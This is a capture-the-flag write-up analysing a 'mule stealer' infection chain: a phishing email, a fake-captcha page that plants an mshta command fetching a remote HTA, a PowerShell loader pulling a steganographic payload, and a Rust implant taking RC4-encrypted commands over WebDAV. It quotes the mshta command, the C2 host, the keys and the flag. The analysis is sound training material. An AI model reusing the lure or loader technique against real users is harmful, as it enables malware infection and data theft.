





# A mule stealer - Writeup

The description of the challenge mentions a weird attachment. The file provided with the challenge is an .eml file containing an email message. To solve the challenge, participants were required to conduct analysis of this file, extract the final malicious payload and reverse engineer it.

## Step 1 - Email file analysis

The provided email file has the following contents: 
<p align="center"></p>


As can be observed, the email prompts the target user to click on the link in the message to view a video. The link to this video is ```https://verifycert.task.sasc[.]tf/video/view.html```.

## Step 2 - Malicious URL analysis

When a page opened in the browser, the URL displays the following captcha page, which prompts the user to copy and paste the clipboard contents into the Run window:

<p align="center"></p>

Analysis of the source HTML code further reveals that the webpage copies the command ```mshtа https://verifycert.task.sasc[.]tf/video/cat_rabbit.mp4 #  ✅ ''I am not a rоbоt - reCАPTCHA Vеrificatiоn ID: 2165``` into the clipboard. This command is designed to retrieve an HTA (HTML file supporting Windows scripting languages) file from a remote server and execute it. As such the code of this page implements the [Fake Captcha](https://securelist.com/lumma-fake-captcha-attacks-analysis/116274/) infection technique. 

The downloaded HTA file is designed to execute a VBS script designed to run a PowerShell command, as shown by the screenshot below.

<p align="center"></p>

## Step 3 - PowerShell command analysis

The executed PowerShell command is stored in the HTA file as a Base64-encoded UTF-16LE string. This command, as can be seen from the screenshot below, is designed to download a payload from the ```https://verifycert.task.sasc[.]tf/flag.png```. Although named ```flag.png```, the image hosted on this URL is a 20MB rickroll. Having downloaded this PNG file, the PowerShell command extracts a steganographically embedded payload from it with the LSB algorithm, with the payload being stored in the red channel. This payload is a 4.5 MB Windows executable, which gets saved to the path ```%LOCALAPPDATA%\Temp\svchost.exe``` and then launched.

<p align="center"></p>

## Step 4 - Dropped executable analysis

The executable is a malicious payload coded in Rust. An examination of its strings can help reveal its C2 server address, ```http://backupstorage.task.sasc[.]tf```. Examining cross-references to the string with this address makes it possible to reveal the main malicious function of this payload, located at relative virtual address ```0x23F70```. Analysis of this function (to reverse engineer it timely, it is recomended to use both static and dynamic analysis) reveals that the malicious payload executes the following loop with the following actions:

- Connect to the C2 server via the WEBDAV protocol and list files inside the /in directory of the server;
- Retrieve each file in the /in directory and decrypt it with RC4 to obtain a shell command (hex-encoded key: ```9f811cee6f10a88d6d5249805b9ba5f8e06c9f00f025593812ba1d4a4ed833fd```);
- Execute the obtained command;
- Encrypt the command output with RC4 (hex-encoded key: ```09dc6e7f7782a4b5877bd0267fc3605fdfe126b95a46c0be63d0740ee80eee46```) and upload the encrypted file to the C2 server inside the /out directory.

## Step 5 - C2 server activity analysis

An examination of the directory contents reveals that the ```/in``` and ```/out``` folders of the C2 server store files named ``exfiltr8.txt```: 
<p align="center"></p>

The file inside the ```/in``` folder [decrypts](https://gchq.github.io/CyberChef/#recipe=RC4(%7B'option':'Hex','string':'9f811cee6f10a88d6d5249805b9ba5f8e06c9f00f025593812ba1d4a4ed833fd'%7D,'Latin1','Latin1')&input=g09ml2BgXEDI4vnrFQ) into the string ```type flag.txt```, which represents a command to display contents of the ```flag.txt``` file. The file in the ```/out``` folder [decrypts](https://gchq.github.io/CyberChef/#recipe=RC4(%7B'option':'Hex','string':'09dc6e7f7782a4b5877bd0267fc3605fdfe126b95a46c0be63d0740ee80eee46'%7D,'Latin1','Latin1')&input=AYKd3hGoR6yEtRBeK6S8THh8QlqX/31kHPm1EK0OHRcMPJiQQLZ0dWWbkF5%2BZg&oeol=FF) to the contents `SAS{c475_w17h_r4bb17_34r5_c4n_d3liv4r_m4lw4r3}`, which is the flag for the challenge.
